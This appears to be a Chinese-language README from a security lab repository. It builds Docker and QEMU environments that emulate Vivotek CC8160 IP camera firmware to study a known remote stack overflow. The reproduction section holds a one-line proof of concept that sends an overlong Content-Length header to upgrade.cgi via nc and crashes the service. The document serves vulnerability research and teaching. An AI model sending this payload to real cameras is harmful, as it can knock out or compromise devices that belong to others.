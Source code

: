 # Vivotek IP Cameras CC8160 栈溢出漏洞


## 漏洞环境

### 用户级模拟 - 快速验证

手动构建：

```sh
# 构建 binwalk 并解包固件
$ cd baseImage/binwalk
$ docker build -t binwalk .
$ cd Vivotek/remote_stack_overflow
$ docker run -v $PWD/firmware:/root/firmware binwalk -Mer /root/firmware/CC8160-VVTK-0100d.flash.zip

# 构建漏洞环境
$ docker-compose -f docker-compose-user.yml build

# 后台启动环境
$ docker-compose -f docker-compose-user.yml up
```

直接拉取：

```sh
# 拉取 binwalk 并解包固件
$ docker pull firmianay/binwalk
$ docker run -v $PWD/firmware:/root/firmware firmianay/binwalk -Mer /root/firmware/CC8160-VVTK-0100d.flash.zip

# 拉取漏洞环境并启动
$ docker pull firmianay/vivotek:remote_stack_overflow-user
$ docker run --privileged -p 1234:80 -it vivotek:remote_stack_overflow-user
```

### 系统级模拟 - 动态调试

手动构建，解包过程同上。如果想要动态调试，还需要编译对应的 arm gdbserver 并复制到 system-emu 目录。

```sh
# 先构建漏洞环境 qemu-system:arm 环境
$ cd baseImage/qemu-system/arm
$ docker build -t qemu-system:arm .

# 再构建漏洞环境
$ docker-compose -f docker-compose-system.yml build

# 启动环境
$ docker-compose -f docker-compose-system.yml up
# 等待启动完成，重新开启一个窗口做后续操作
$ docker exec -it vivotek-system /bin/bash
$ ssh root@192.168.2.2
```

直接拉取：

```sh
$ docker pull firmianay/vivotek:remote_stack_overflow-system
$ docker run --privileged -it vivotek:remote_stack_overflow-system
```

## 漏洞复现

```sh
echo -en "POST /cgi-bin/admin/upgrade.cgi\r\nHTTP/1.0\nContent-Length:AAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIXXXX\n\r\n\r\n"  | nc -v 127.0.0.1 1234
```

![img](./crash.png)


## 参考链接

- https://www.exploit-db.com/exploits/44001
- https://xz.aliyun.com/t/5054
- https://www.anquanke.com/post/id/185336
- https://paper.seebug.org/480/
